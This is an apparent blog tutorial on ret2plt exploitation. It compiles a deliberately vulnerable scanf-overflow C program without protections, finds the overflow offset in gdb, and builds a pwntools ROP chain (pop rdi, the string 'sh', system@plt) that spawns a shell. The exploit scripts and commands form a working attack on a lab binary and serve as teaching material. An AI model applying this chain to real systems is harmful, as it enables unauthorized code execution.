



  

***

# Introduction

In the last couple of days, I had some time and wanted to get a better understanding and some experience in modern binary exploitation techniques.
Part of this learning process is to explain what I've learned to others. If you find an error, please let me know.

Also: While preparing for the OSCP I already tried a couple of protection bypasses like NX/DEP (Data Execution Prevention) with the [ROPEmporium](https://ropemporium.com/) challenges.
I highly recommend them because they will teach some fundamentals we will use for bypassing another common protection, which is ASLR or Address Space Layout Randomization.

The first technique I am explaining is the ret2plt or "Return to Procedural Linkage Table".

## What's PLT?

In modern operating systems we have a lot of programming libraries. The most known one in linux is libc. It stores most of the common functions a program will
need to run properly. For example the `printf()` or `puts()` function. Once a progam is started the libc library is dynamicaly linked into that program.
Which means the program, could use all the functions in libc.

To find the function, let's say `printf()`, within libc the program needs to know the memory location of the function is at runtime. 
But this is a shared library, other programs would also like to use `printf()`. But these programs run in their own process and have their own
virtual address space. So the addresses can't be the same.

One solution to this problem could be, to host multiple copies of `printf()` for each process. But, as you can imagine - that's quite inefficent.
Another solution is to introduce a small process specific memory area to store a little stub that points to the real `printf()`.
As this area isn't shared with other processes, it can simply be changed by the process to whatever it wants.

This stub, is the PLT. When opening a debugger later, we will see these stubs everywhere. They might look like this: `printf@plt`.
In a future blog post, I'll introduce another component to this. Which is the GOT or Global Offset Table.

If this explaination is to much for you right now, I suggest taking a look at this [blog post](http://infosec.vishalmishra.in/2013/03/procedure-linkage-table-and-global.html).
The author has some nice pictures that might help you understand this a bit better.

The main take away should be: Functions are called with a level of indirection. A call to `printf()` will first call `printf@plt`.

## Why does this matter?

This matters because we want to bypass a protection mechanism called ASLR, which randomizes the memory location of certain parts of a process.
Because of this randomization, we can't hardcode a memory addresses into our exploits anymore. They will change once a process restarts.
What we can do though, is use the stubs addresses instead, which then resolve to the real function address we want to call.

Before you get even more confused, let's go and play with an example.

# The Target

This is our target progam we will attack today.


#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
    char desc[100];
    system("clear");
    printf("Can you make me crash");
    scanf("%s",desc);
    return(0);
}


This code takes user provided data via the unsafe function `scanf()`. The buffer for the data is 100 bytes.
Let's compile this code and run it:


# -fno-stack-protector = compile without "stack canaries" security mechanism
# -no-pie = compile without "Position Independent Executabe (PIE)" security mechanism
gcc ret2plt.c -o ret2plt -fno-stack-protector -no-pie

./ret2plt


Nice. An almost useless program.

## First Crash

The next part is of cause to make it crash. We know from the source code that 100 bytes are the maxium
assigned buffer. So let's give it 300 bytes.


python3 -c 'print("A" * 300)'


We confirmed it's crashing when a large input is given. The next part step is to examine when the crash happend
exactly. If you are not familiar with this process you should read my [OSCP buffer-overflow](https://www.tagnull.de/post/oscp-exploitdev/) article. This is just the setup
we always need to do, regardless of technique used.

## Finding the Offset

To find the offset where the crash is happening I use gdb with the [gef extention](https://gef.readthedocs.io/en/master/).


gdb ./ret2plt


Once gdb is up, I set a brakepoint in the main function.


b main


Next we generate a non repeating pattern of 300 bytes.


pattern create 300


We copy the output, then `r` to run the program. We will hit our breakpoint and the program will be paused.
Hit `c` to continue. You should get the password-promt now. Paste the pattern you've copied and hit enter.

As expected, the program crashed again.

Examine the different sections of the gdb output. You can see the stack full of our sent pattern.
You can also observe that we are stuck at a `ret` instruction and most importantly, that we have overwritten the `$rsp` register.

Copy the pattern (without "[...]") and run the next command:


pattern search <pattern>


Ok. We know, that the overflow happens after 120 bytes of input. We can start writing our exploit now.

# Writing the exploit

I am using the pwntools library which is very nice and helpful. Again, google is your friend.
After importing pwntools we need to specify which progam we want to run. We also set the os we are running currently
and the architecture. This is just some pwntools stuff. But let's comment that out for now. 
We will upgrade the exploit at the end and come back to this. 

Next we define our junk value of 120 bytes. And lastly we write our payload to a file on disk. 


#!/usr/bin/python3
from pwn import *

# pwntools stuff for later
#p = process('./ret2plt')
#context(os='linux', arch='adm64')

junk = b"A" * 120

with open("payload", "wb") as w:
    w.write(payload)


But what now?

So, we probably want to get a shell through this vulnerability right? Which in turn means, we need to use a function that
executes a shell or `sh` for us. The first function that comes to mind is `system()`.

When you review the source code of our target we see, the `system()` function is already present. But the argument "clear"
won't help us with the shell. We need to call `system()` with our own argument. Like `sh`. 
Conveniently I placed the string "sh" into the code in the word "crash". 

So our next steps are clear, find the location of "sh" and `system()` in our binary.

## Finding "sh"

Finding "sh" is rather easy. Start the program with gdb as before. Set a breakpoint in `main` and hit run.
Once the breakpoint is reached just do:


grep sh


You will get a long list of different "sh" places. But pay attention where they have been found.
Most of them are found in libc. Which is not the target for todays mission. Scroll up and you will find
something like this:

So we have the location of the string "sh". Luckily we have two locations. The first one has `0x20` in it which is a bad
character. We have to use the one with the `0x30` in it instead. Let's update our exploit with the new information.


#!/usr/bin/python3
from pwn import *

# pwntools stuff for later
#p = process('./ret2plt')
#context(os='linux', arch='adm64')

junk = b"A" * 120
sh = p64(0x40301d)

with open("payload", "wb") as w:
    w.write(payload)


Next on our list is `system()`. This is also easy to find. We quit out of gdb and run:


objdump -d ret2plt | grep system


The result should look like this:

We are interessted in the first line. This is the address of `system@plt`. This address is not randomized.
And this is also our stub to the real `system()`. Let's put that also into our exploit.

Are we good? No yet. One last piece is missing. We are running all this on a 64 Bit system. Which means
that arguments to a function, like "sh" for `system()`, needs to be passed via the `$rdi` register.

How do we get it in there? Glad you asked. As DEP is also enabled and we can't execute data from the stack anyways
we have to use a ROP technique aswell. We need a `pop rdi; ret` instruction that's already present within our binary.

We can search for one with the tool ROPGadget like so:


ROPgadget --binary ret2plt | grep rdi


Hint: it's the second line. ;)

Let's update our exploit again and while we are at it, let's build our payload at the same time.
The finished exploit looks like this now:


#!/usr/bin/python3
from pwn import *

# pwntools stuff for later
#p = process('./ret2plt')
#context(os='linux', arch='adm64')

junk = b"A" * 120
sh = p64(0x40301d)
system = p64(0x401030)
pop_rdi = p64(0x4011eb)

payload = junk + pop_rdi + sh + system

with open("payload", "wb") as w:
    w.write(payload)


## Will it work though?

Let's run the exploit and check if an file called "payload" has been created. If so, let's run the following command:


(cat payload;cat) | ./ret2plt


You should get a blank terminal. Hit enter, and then type `id` or `ls` or whatever shell command you want. ;)
I typed `ls` twice as you can see:

Nice. We've got a shell. =)

# Wtf happend?

Let's open the target program in gdb once more, set a breakpoint at `main()` and `r < payload` to
feed it our payload.

Once we hit our breakpoint, single-step trough the program with `s`. Everytime you enter a function, you can rush through
it with `finish`. However, pay attention to the "code" section, once you step out of `scanf()`, we want to observe what's
happening.

Let's go slower now.

Once we are back in `main()` we can see our payload on the stack.

Also we see that we are about to `leave` the `main()` function.

Single-step twice. Once we hit the `ret` we can see what's happening next.
First of all, the next instruction is `pop rdi`, followed by a `ret`. Sounds familiar?

Now check the stack. After the `pop rdi` comes `sh`. 

Single-Step through this slowly and see how the process unfolds.

1. `pop rdi` will be put into `$rip`
2. Address of "sh" will be put into `$rdi`
3. `ret` will be executed
4. `system` will be called next

Exactly how we planed it.

# Updates

Let's make our exploit and the shell a bit more shiny.
First we uncomment the pwntools line we already have at the top.

Next we remove the write function and introduce the last two lines of this finish exploit code:


#!/usr/bin/python3
from pwn import *

# pwntools stuff for now
p = process('./ret2plt')
context(os='linux', arch='adm64')

junk = b"A" * 120
sh = p64(0x40301d)
system = p64(0x401030)
pop_rdi = p64(0x4011eb)

payload = junk + pop_rdi + sh + system

p.sendline(payload)
p.interactive("> ")


That's all for now. Run the exploit and you should get a shell that's a bit nicer.

# Last words

That's it for today. I hope this was somewhat understandable and helps you writing own exploits.
Of cause you can download all the code from my [github](https://github.com/tagnullde/Exploit-Development/tree/master/ASLR-Bypass/ret2plt).

In the next days I would like to write another article that take this a bit further. 
What happens if we don't have `system()` nor "sh" at our disposal? What can we do then?
If you want to know the answer, come back in a couple of days. ;)

x41